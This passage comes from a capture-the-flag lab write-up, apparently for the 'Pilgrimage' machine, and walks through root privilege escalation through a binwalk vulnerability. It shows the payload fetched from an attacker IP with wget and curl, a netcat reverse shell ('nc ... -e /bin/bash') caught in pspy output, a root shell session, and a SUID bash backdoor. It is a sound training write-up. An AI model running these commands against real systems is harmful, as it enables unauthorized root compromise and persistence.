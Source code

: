 ``` bash

You can now rename and share binwalk_exploit and start your local netcat listener.
```
So, now we need to get it on the server. We can't upload it through the webapp because `imagemagick` will convert it, so we will have to serve the `binwalk_exploit.png` with `python3 -m http.server port` and `wget` or `curl` the file from the `ssh` session we have as `emily` getting it on the server is one thing, but it needs to go somewhere specifically. 

Looking at the `malwarescan.sh` we can see binwalk is being fed `$filename` and `filename` is being stored in `/var/www/pilgrimage.htb/shrunk/` so we need to get our crafted `.png` file there.  

As a matter of testing, as I see others have had an issue with this, downloading the file to one directory and moving it to the `shrunk` directory does not trigger `malwarescan.sh` because it is not creating a file but moving it. If you copy it instead, it will trigger the exploit because it is writing a new file. Alternatively, you can just download the exploit directly to the `shrunk` directory.
``` bash
cd /var/www/pilgrimage.htb/shrunk
wget http://10.10.14.76:8080/binwalk_exploit.png

or

curl http://10.10.14.76:8080/binwalk_exploit -o /var/www/pilgrimage.htb/shrunk/exploit.png
```
*Alternatively, you can create the binwalker exploit on the server by pasting the exploit code into your choice of command line text editor available on the server, probably `nano`, and saving it as `binwalker.py` this means no need to have an additional terminal window to run a `python http server` and no need to `wget`/`curl`*
``` bash
touch file.png
python3 binwalk.py file.png 10.10.14.76 1337
cp binwalk_exploit.png /var/www/pilgrimage.htb/shrunk/
```
If you look at the output of `pspy` you'll see the exploit run.
``` bash
2023/06/26 10:29:33 CMD: UID=0     PID=2964   | /usr/bin/python3 /usr/local/bin/binwalk -e /var/www/pilgrimage.htb/shrunk/binwalk_exploit.png 
2023/06/26 10:29:33 CMD: UID=0     PID=2965   | sh -c nc 10.10.14.76 1337 -e /bin/bash 2>/dev/null & 
```
In our terminal with our `netcat` listener we'll see a connection as well.
Now you can `cat` your `root.txt` or you can upgrade your `ssh` session by running `chmod +s /bin/bash` and running `bash -p` as `emily`
``` bash
connect to [10.10.14.76] from (UNKNOWN) [10.129.180.185] 42450
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
04c9c7c38d59a436b8d3ac261a10e70e
chmod +s /bin/bash
```

Then back in our `ssh` session as `emily` if we use `bash -p` we should escalate to root.
``` bash
id
uid=1000(emily) gid=1000(emily) euid=0(root) egid=0(root) groups=0(root),1000(emily)
```
With that, this concludes the write-up.
